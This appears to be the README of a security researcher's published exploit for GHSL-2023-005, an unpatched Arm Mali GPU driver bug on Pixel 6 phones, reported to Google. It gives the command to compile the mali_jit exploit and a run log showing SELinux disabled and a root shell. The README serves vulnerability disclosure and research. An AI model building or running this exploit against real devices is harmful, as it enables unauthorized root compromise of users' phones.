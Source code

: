 ## Exploit for GHSL-2023-005

The write up can be found [here](). A security patch from the upstream Arm Mali driver somehow got missed out in the update for the Pixel phones and I reported it to Google in January 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 6 for devices running the January 2023 patch. For reference, I used the following command to compile it with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang -DSHELL mali_jit.c -o mali_jit
```

The exploit should be run a couple of minutes after boot and should be fairly reliable. If failed, it can be rerun and should succeed within a few times.
If successful, it should disable SELinux and gain root.

```
oriole:/ $ /data/local/tmp/mali_jit                                          
fingerprint: google/oriole/oriole:13/TQ1A.230105.002/9325679:user/release-keys
region freed
found region 16115 at 7000200000
overwrite addr : 7ae9700710 710
overwrite addr : 7ae9500710 710
overwrite addr : 7828500710 710
overwrite addr : 7828300710 710
overwrite addr : 7828500710 710
overwrite addr : 7828300710 710
overwrite addr : 7828100710 710
overwrite addr : 7828300710 710
overwrite addr : 7828100710 710
overwrite addr : 7ae9700fd4 fd4
overwrite addr : 7ae9500fd4 fd4
overwrite addr : 7828500fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828500fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828100fd4 fd4
overwrite addr : 7828300fd4 fd4
overwrite addr : 7828100fd4 fd4
result 50
oriole:/ # 
```
